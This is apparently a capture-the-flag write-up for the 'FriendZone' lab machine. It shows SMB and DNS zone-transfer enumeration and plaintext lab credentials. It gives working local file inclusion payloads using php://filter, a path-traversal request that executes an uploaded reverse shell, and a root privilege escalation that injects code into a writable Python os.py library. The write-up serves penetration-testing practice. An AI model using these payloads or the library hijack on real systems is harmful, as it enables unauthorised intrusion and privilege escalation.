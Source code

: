 ![](./logo.png)

# USER

gobuster
```
/wordpress
/images
/upload
/timestamp
```

SMB enumeration
```
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	Files           Disk      FriendZone Samba Server Files /etc/Files
	general         Disk      FriendZone Samba Server Files
	Development     Disk      FriendZone Samba Server Files
	IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            FROLIC

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

Command below gets to user directory
```
smbclient \\\\10.10.10.123\\general\\
```

Gives us the listing of a file containing
```
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Querying the DNS server gives us:

```
PORT   STATE SERVICE
53/udp open  domain
| dns-cache-snoop: 1 of 1 tested domains are cached.
|_friendzone.red
```

Using dnsrecon provides us with more information
https://github.com/darkoperator/dnsrecon.git

```
[*] Performing host and subdomain brute force against friendzone.red
[*] 	 A hr.friendzone.red 127.0.0.1
[*] 	 A uploads.friendzone.red 127.0.0.1
```

Using dig to query zone transfers

```
dig axfr friendzone.red @10.10.10.123
```

Outputs:
```
 axfr friendzone.red @10.10.10.123
	;; global options: +cmd
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzone.red.         604800  IN      AAAA    ::1
	friendzone.red.         604800  IN      NS      localhost.
	friendzone.red.         604800  IN      A       127.0.0.1
	administrator1.friendzone.red. 604800 IN A      127.0.0.1
	hr.friendzone.red.      604800  IN      A       127.0.0.1
	uploads.friendzone.red. 604800  IN      A       127.0.0.1
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 83 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123)
	;; WHEN: Thu Mar 07 16:29:10 UTC 2019
	;; XFR size: 8 records (messages 1, bytes 289)


 axfr friendzoneportal.red @10.10.10.123
	;; global options: +cmd
	friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzoneportal.red.   604800  IN      AAAA    ::1
	friendzoneportal.red.   604800  IN      NS      localhost.
	friendzoneportal.red.   604800  IN      A       127.0.0.1
	admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
	files.friendzoneportal.red. 604800 IN   A       127.0.0.1
	imports.friendzoneportal.red. 604800 IN A       127.0.0.1
	vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
	friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 83 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123)
	;; WHEN: Thu Mar 07 16:37:37 UTC 2019
	;; XFR size: 9 records (messages 1, bytes 309)
```

By adding 10.10.10.123 to hosts file with administrator1.friendzone.red it allows us to virutal host resolve
us to an admin page

```
https://administrator1.friendzone.red
https://uploads.friendzone.red
```

Virutal host routing allows us to use the value below as the host parameter for the https server to give us a secret login box

```
3
```

It logs us into a basic site with some sort of params that run command?


Localfile inclusion allows the reading of php files
```
?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=timestamp
?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=https://uploads.friendzone.re
upload.php
```

Way to read php code of websitess
```
pagename=php://filter/read=convert.base64-encode/resource=X
```

Uploading a reverse shell to the SMB share allows us to execute by runing:
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../../../../../../etc/Development/shell
```

This provides us with a shell and the user.txt.

# ROOT

Creds found in a sql_data.conf

```
friend
Agpyu12!0.213$
```

Found this python file in the /opt/ directory??

```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

From further enum it can be seen that we can edit this python library
```
/usr/lib/python2.7/os.py
```

This is imported in the previous script. Therefore, anything places is ```os.py``` will be executed by the script

Exploit added:
```python
# <HACK>
flag = "" 
with open("/root/root.txt", "r") as file:
        data = file.read() 
        
with open("/tmp/" + flag, "w+") as file:
        file.write("hello") 
# </HACK>
```

This copies the root file and gives us it in the temp. This could be expanded for root shell by running a 
reverse shell
